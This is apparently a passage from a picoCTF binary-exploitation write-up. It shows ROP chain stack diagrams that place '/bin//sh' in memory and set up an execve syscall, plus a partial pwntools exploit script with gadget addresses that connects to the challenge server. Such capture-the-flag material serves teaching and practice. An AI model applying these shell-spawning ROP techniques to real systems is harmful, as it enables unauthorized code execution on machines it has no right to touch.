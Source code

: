 ```
k   | pop   rax                |
|   | ret                      |
|   +--------------------------+
|   |        0x6b7610          |
|   +--------------------------+
|   | pop   rdx                |
|   | ret                      |
|   +--------------------------+
|   |        '//sh'            |
|   +--------------------------+
|   | mov  dword ptr [rax],edx |
|   | ret                      |
|   +--------------------------+
|          . . . . . . .
```

- After implement above ROP, the 0x6b760c will reference to "/bin//sh"

- And Finally, We have to set up some parameter to implement call to exceve

```
|           . . . . . . 
|   +-------------------------+         <- esp
|   |        pop   rax        |
|   |        ret              |
|   +-------------------------+
|   |        0x3b             |
|   +-------------------------+
S   |        pop   rdi        |
t   |        ret              |
a   +-------------------------+
c   |        0x6b760c         |
k   +-------------------------+
|   |        pop   rsi        |
|   |        ret              |
|   +-------------------------+
|   |        pop   rdx        |
|   |        ret              |
|   +-------------------------+
|           . . . . . . 
```


## Exploit

```python
from pwn import *

mov_data = 0x000000000048dd72   #: mov dword ptr [rax], edx ; ret
pop_rax  = 0x00000000004163f4   #: pop rax ; ret
pop_rbx  = 0x0000000000400ed8   #: pop rbx ; ret
pop_rdx  = 0x000000000044a6b5   #: pop rdx ; ret
pop_rdi  = 0x0000000000400696   #: pop rdi ; ret
mov_rcx  = 0x0000000000444fd0   #: mov rcx, qword ptr [rsi] ; mov byte ptr [rdi + 8], dh ; mov qword ptr [rdi], rcx ; ret
pop_rsi  = 0x0000000000410ca3   #: pop rsi ; ret
syscall  = 0x000000000040137c   #: syscall

#  elf = ELF("./vuln")
#  p = elf.process()
p  = remote("jupiter.challenges.picoctf.org", 28953)
#  gdb.attach(p)

p.recvuntil("What number would you like to guess?\n")
p.sendline("84")
```